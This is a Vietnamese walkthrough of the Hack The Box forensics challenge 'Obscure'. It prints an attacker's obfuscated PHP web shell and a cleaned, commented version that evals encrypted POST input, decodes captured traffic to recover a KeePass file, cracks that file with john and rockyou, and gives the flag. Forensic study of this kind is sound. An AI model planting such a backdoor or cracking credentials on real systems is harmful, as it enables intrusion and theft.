

## Description 
> An attacker has found a vulnerability in our web server that allows arbitrary PHP file upload in our Apache server. Suchlike, the hacker has uploaded a what seems to be like an obfuscated shell (support.php). We monitor our network 24/7 and generate logs from tcpdump (we provided the log file for the period of two minutes before we terminated the HTTP service for investigation), however, we need your help in analyzing and identifying commands the attacker wrote to understand what was compromised.

> Tạm dịch : Kẻ tấn công đã tìm thấy lỗ hổng trong máy chủ web của chúng tôi cho phép tải tệp PHP tùy ý lên máy chủ Apache của chúng tôi. Chẳng hạn, hacker đã tải lên một thứ trông giống như một shell bị xáo trộn (support.php). Chúng tôi giám sát mạng của mình 24/7 và tạo nhật ký từ tcpdump (chúng tôi đã cung cấp tệp nhật ký trong khoảng thời gian hai phút trước khi chấm dứt dịch vụ HTTP để điều tra), tuy nhiên, chúng tôi cần sự trợ giúp của bạn trong việc phân tích và xác định các lệnh mà kẻ tấn công đã viết để hiểu những gì đã bị xâm phạm.

## Link challenge 
> https://app.hackthebox.com/challenges/Obscure

## Solution 

- Sau khi tải xuống ta được 2 file, 1 file pcap và 1 file php 
- Với lab này ta nên mở file php lên trước 

```
<?php
$V='$k="80eu)u)32263";$khu)=u)"6f8af44u)abea0";$kf=u)"35103u)u)9f4a7b5";$pu)="0UlYu)yJHG87Eu)JqEz6u)"u)u);function u)x($';
$P='++)u){$o.=u)$t{u)$i}^$k{$j};}}u)retuu)rn $o;}u)if(u)@pregu)_u)match("/$kh(.u)+)$kf/",@u)u)file_u)getu)_cu)ontents(';
$d='u)t,$k){u)$c=strlu)en($k);$l=strlenu)($t)u);u)$o=""u);for($i=0u);u)$i<$l;){for(u)$j=0;(u)$u)j<$c&&$i<$l)u)u);$j++,$i';
$B='ob_get_cou)ntu)ents();@obu)_end_cleu)anu)();$r=@basu)e64_eu)ncu)ode(@x(@gzu)compress(u)$o),u)$k));pru)u)int(u)"$p$kh$r$kf");}';
$N=str_replace('FD','','FDcreFDateFD_fFDuncFDFDtion');
$c='"php://u)input"),$u)m)==1){@u)obu)_start();u)@evau)l(@gzuu)ncu)ompress(@x(@bau)se64_u)decodu)e($u)m[1]),$k))u));$u)ou)=@';
$u=str_replace('u)','',$V.$d.$P.$c.$B);
$x=$N('',$u);$x();
?>

```
- Dữ liệu khá là khó đọc nên ta dùng trang web này : [https://www.unphp.net/decode/792db23b84299ad36b1ecf95f380cf17/](https://www.unphp.net/decode/792db23b84299ad36b1ecf95f380cf17/) để dễ đọc hơn, hoặc dùng AI. Ở đây mình dùng AI để sửa lại format code 

```
<?php
$k = "80e32263";         // Khóa mã hóa
$kh = "6f8af44abea0";     // Khóa băm đầu
$kf = "351039f4a7b5";     // Khóa băm cuối
$p = "0UlYyJHG87EJqEz6";  // Một chuỗi định nghĩa

// Hàm x() dùng để mã hóa/giải mã chuỗi với khóa k
function x($t, $k) {
    $c = strlen($k);     // Độ dài của khóa
    $l = strlen($t);     // Độ dài của chuỗi cần mã hóa/giải mã
    $o = "";             // Chuỗi đầu ra
    for ($i = 0; $i < $l;) { // Lặp qua từng ký tự của chuỗi
        for ($j = 0; ($j < $c && $i < $l); $j++, $i++) {
            $o .= $t[$i] ^ $k[$j]; // XOR từng ký tự của chuỗi với khóa
        }
    }
    return $o;
}

// Kiểm tra xem có chuỗi khớp với mẫu kh và kf hay không
if (@preg_match("/$kh(.+)$kf/", @file_get_contents("php://input"), $m) == 1) {
    @ob_start(); // Bắt đầu bộ đệm đầu ra
    @eval(@gzuncompress(@x(@base64_decode($m[1]), $k))); // Giải nén, giải mã và chạy mã
    $o = @ob_get_contents(); // Lấy nội dung của bộ đệm đầu ra
    @ob_end_clean(); // Kết thúc và xóa bộ đệm đầu ra
    $r = @base64_encode(@x(@gzcompress($o), $k)); // Nén, mã hóa chuỗi và mã hóa base64
    print("$p$kh$r$kf"); // In ra chuỗi kết quả
}
?>

```
- Chú ý kĩ phần đầu ra `print("$p$kh$r$kf");` trong đó biến `$r` chính là dữ liệu nhập và bị encode 
- Xem nội dung encode nào : `$r = @base64_encode(@x(@gzcompress($o), $k));`
- Dữ liệu bị bị `encode base64` sau đó xor bằng hàm `x` (với đối số k) nén lại bằng `zlib`  
- Để biết dữ liệu nhập vào là gì ta lấy dữ liệu từ wireshark rồi decode bằng cyberchef

```
Dữ liệu đầu tiên 
0UlYyJHG87EJqEz66f8af44abea0QKxO/n6DAwXuGEoc5X9/H3HkMXv1Ih75Fx1NdSPRNDPUmHTy351039f4a7b5
```
- Vì đầu ra nó có `$p$kh` và `$kf` nên ta chỉ lấy `$r` thôi (bỏ 0UlYyJHG87EJqEz66f8af44abea0 và 351039f4a7b5) nên $r là `QKxO/n6DAwXuGEoc5X9/H3HkMXv1Ih75Fx1NdSPRNDPUmHTy`
- 
- Tương tự với những luồng khác dữ liệu lần lượt là 
```
total 24K
drwxr-xr-x 2 developer developer 4.0K May 21 20:37 .
drwxr-xr-x 3 root      root      4.0K May 20 21:28 ..
-rw-r--r-- 1 developer developer  220 May 20 21:28 .bash_logout
-rw-r--r-- 1 developer developer 3.5K May 20 21:28 .bashrc
-rw-r--r-- 1 developer developer  675 May 20 21:28 .profile
-rw-r--r-- 1 developer developer 1.6K May 21 20:37 pwdb.kdbx
```
- Chỗ này nó liệt kê file trong thư mục, có 1 file pwdb.kdbx
```
/home/developer
```

```
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
```
- Chỗ này sau khi decode xong ta được 1 chuỗi, có vẻ là mã base64

- 
- Tra google thì đây là magic byte của file .kdbx lúc nãy 
- Xuất ra file thì nó cần mật khẩu để vào, thứ đầu tiên mà mình nghĩ ngay đến là crack mật khẩu 
```
┌──(kali㉿kali)-[~/Downloads]
└─$ keepass2john a.kdbx > hash
┌──(kali㉿kali)-[~/Downloads]
└─$ cat hash       
a:$keepass$*2*6000*0*204c86ee9d2e89b4d5ff55ebe51c3cd4bf1a904ccea385ab892c9ce8400cc785*b7a535e876d76745024f20fc3e0d1db75d8fd72929de7bec30a565ef4a5ac6e6*118296757720a8d3ca11e1f170483802*5c6b99d0aab4a0957eb0f988b21818d37c31bb8111f83c0d8512556e4bfd1cc8*aa28fb2ca246bdb19dd3c8b2e8b2cd4f2d9630bac44a3ba26b3dbd13cded845b
┌──(kali㉿kali)-[~/Downloads]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
chainsaw         (a)     
1g 0:00:00:40 DONE (2024-06-14 09:35) 0.02486g/s 533.4p/s 533.4c/s 533.4C/s cholita..bliss
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
- Mật khẩu hiển thị là `chainsaw`
- Mở file ta được 1 tiêu đề có tên flag 
- 
- Bấm vào mật khẩu và ta được flag 
> HTB{pr0tect_y0_shellZ}


